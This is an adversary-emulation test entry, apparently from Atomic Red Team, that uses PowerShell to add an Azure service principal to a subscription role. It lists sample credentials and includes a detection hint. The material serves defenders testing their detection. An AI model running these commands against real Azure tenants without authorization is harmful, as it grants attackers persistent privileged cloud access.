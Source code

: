 


<br/>
<br/>

## Atomic Test #7 - Azure - adding service principal to Azure role in subscription
The adversaries want to add service principal to some Azure role, also called Azure resource role. Threat actor 
may be interested primarily in highly privileged roles, e.g. Owner, Contributor.
By default, the role Reader is assigned to service principal in this test.

New-AzRoleAssignment cmdlet could be also use to assign user/service principal to resource, resource group and management group.

The account you use to run the PowerShell command must have Microsoft.Authorization/roleAssignments/write 
(e.g. such as User Access Administrator or Owner) and the Azure Active Directory Graph Directory.Read.All 
and Microsoft Graph Directory.Read.All permissions.

Detection hint - check Operation Name "Create role assignment" in subscriptions Activity Logs.

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** c8f4bc29-a151-48da-b3be-4680af56f404





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | jonh@contoso.com|
| password | Azure AD password | string | p4sswd|
| service_principal_name | Name of the service principal | string | SuperSP|
| role_name | Name of the targeted Azure role | string | Reader|
| subscription | Name of the targeted subscription | string | Azure subscription 1|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module -Name Az.Resources
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzAccount -Credential $Credential

$sp = Get-AzADServicePrincipal | where-object {$_.DisplayName -eq "#{service_principal_name}"}
if ($sp -eq $null) { Write-Warning "Service Principal not found"; exit }
$subscription = Get-AzSubscription | where-object {$_.Name -eq "#{subscription}"} 
if ($subscription -eq $null) { Write-Warning "Subscription not found"; exit }
$role = Get-AzRoleDefinition | where-object {$_.Name -eq "#{role_name}"}
if ($role -eq $null) { Write-Warning "Role not found"; exit }

New-AzRoleAssignment -ObjectId $sp.id -RoleDefinitionId $role.id -Scope /subscriptions/$subscription
Write-Host "Service Principal $($sp.DisplayName) was added to $($role.Name) role in subscriptions $($subscriptions.Name)"
```
